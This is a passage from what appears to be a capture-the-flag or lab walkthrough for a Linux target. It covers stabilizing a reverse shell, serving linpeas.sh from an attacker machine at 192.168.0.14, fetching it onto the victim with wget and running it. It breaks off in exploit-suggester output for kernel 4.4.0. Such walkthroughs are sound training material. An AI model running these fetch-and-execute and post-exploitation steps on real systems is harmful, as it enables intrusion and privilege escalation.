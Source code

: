 

Now we need to stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
CTRL + Z and type in:
stty raw -echo && fg
export TERM=xterm-256-color
```

Now the shell is stable with tab complete



## Exploitation Research

```sudo -l```, setuid search and crontab list don't give as any result. But we see it's a pretty old kernel version. Anyway, we decide to run leanpeas and see what we get

We need to download or move [linpeas.sh](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) in a folder where we are gonna start a python web server. Since we know that ports are blocked, we use port 443 again , but we have to run this command as root.

On the attacker machine:

```
sudo python -m SimpleHTTPServer 443
```

On the victim machine we move to a writable folder and download linpeas.sh

```
cd /tmp
wget 192.168.0.14:443/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

The last tee command is used to be able to watch linpeas work and at the same time write the results to the .txt file.

Wee look for yellow/red and red entries

One of the first entries is:

```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                             
  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching 72 exploits...
